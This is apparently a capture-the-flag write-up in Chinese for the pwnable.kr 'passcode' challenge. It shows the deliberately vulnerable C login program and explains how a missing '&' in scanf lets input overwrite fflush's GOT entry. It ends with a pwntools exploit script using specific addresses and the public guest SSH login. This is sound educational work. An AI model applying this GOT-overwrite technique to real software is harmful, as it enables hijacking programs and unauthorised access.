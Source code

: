 ```c
#include <stdio.h>
#include <stdlib.h>
void login(){
	int passcode1;
	int passcode2;
	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);
	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);
	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");
	welcome();
	login();
	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

login()裡面的`scanf("%d", passcode1)`沒有用`&`字號 

然後passcode1跟name的位置差96bytes (且welcome(),login()的ebp位置相同)

所以我們可以把4bytes位置塞到passcode1裡面 (scanf執行時會把值存到裡面 所以我們可以構造記憶體位置塞在passcode1中)

然後在scanf那邊在輸入我們要的值

於是把頭腦動到`fflush(stdin)`的GOT位置(0x0804a000)

然後在scanf那邊輸入`system("/bin/cat flag")`的指令位置(0x080485E3)

![](https://i.imgur.com/UZCoEHC.png)

tips : 找system("/bin/cat flag")位置時要找`mov /bin/cat flag`那行 這樣system執行時才有參數

exploit: 
```python
from pwn import *
r = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222).process("./passcode")
# r = process('./passcode')
print r.recv()
r.sendline('a'*96+p32(0x0804a000))
print r.recv()
r.sendline(str(0x080485E3))
print r.recv()
```
